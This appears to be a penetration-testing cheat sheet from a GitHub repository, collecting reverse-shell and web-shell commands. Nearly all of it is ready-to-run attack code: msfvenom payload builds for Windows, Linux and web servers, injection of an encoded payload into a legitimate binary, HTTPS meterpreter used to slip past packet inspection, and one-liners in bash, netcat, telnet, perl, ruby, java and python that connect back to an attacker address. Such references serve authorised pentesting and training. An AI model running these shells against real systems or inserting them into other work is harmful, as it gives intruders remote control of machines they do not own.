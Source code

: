 # Reverse-shells

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:  
[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Msfvenom

There is an important difference between non-staged and staged payload. A **non-staged** shell is sent over in one block. You just send shell in one stage. This can be caught with metasploit multi-handler. But also with netcat.

**staged** shells send them in turn. This can be useful for when you have very small buffer for your shellcode, so you need to divide up the payload. Meterpreter is a staged shell. First it sends some parts of it and sets up the connection, and then it sends some more. This can be caught with metasploit multi-handler but not with netcat.

### Windows

#### Meterpreter

**Standard meterpreter**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

#### Non-staged payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

#### Staged payload

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

This must be caught with metasploit. It does not work with netcat.

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

### Inject payload into binary

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Linux

### Binary

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

### Bash

```
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
```

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Php

```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Netcat

**Bind shell**

```
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
```

**Reverse shell**

```
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
```

**With -e flag**

```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

**Without -e flag**

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

```

Upgrade Netcat shell to an interactive: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### Ncat

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

Bind

```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -v 192.168.1.103 5555 --ssl
```

### Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

### Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Web-shells - Platform Independent

### PHP

This php-shell is OS-independent. You can use it on both Linux and Windows.

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

### ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```



